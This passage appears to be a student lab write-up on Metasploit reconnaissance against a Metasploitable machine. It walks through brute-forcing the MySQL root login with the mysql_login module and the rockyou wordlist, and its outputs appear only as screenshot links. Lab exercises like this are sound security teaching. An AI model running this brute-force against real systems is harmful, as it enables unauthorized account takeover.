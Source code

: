 Use the set rhosts command to set the parameter and run the module, as follows:
## OUTPUT:
<img width="724" height="289" alt="image" src="https://github.com/user-attachments/assets/6dc2dad7-2b66-4dfd-a2d0-9e6861984147" />

After scanning, you can also brute force MySQL root account via Metasploit's auxiliary(scanner/mysql/mysql_login) module.
## OUTPUT:

<img width="724" height="289" alt="Screenshot 2025-09-30 091328" src="https://github.com/user-attachments/assets/6ff2fe3b-b903-4764-ac04-185d6f08140c" />

set the PASS_FILE parameter to the wordlist path available inside /usr/share/wordlists:
set PASS_FILE /usr/share/wordlistss/rockyou.txt
Then, specify the IP address of the target machine with the RHOSTS command.
set RHOSTS <metasploitable-ip-address>
Set BLANK_PASSWORDS to true in case there is no password set for the root account.
set BLANK_PASSWORDS true
## OUTPUT:
<img width="1105" height="307" alt="Screenshot 2025-09-29 113341" src="https://github.com/user-attachments/assets/6f8b6b1f-c868-4f75-b53a-65b0f76b5371" />


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
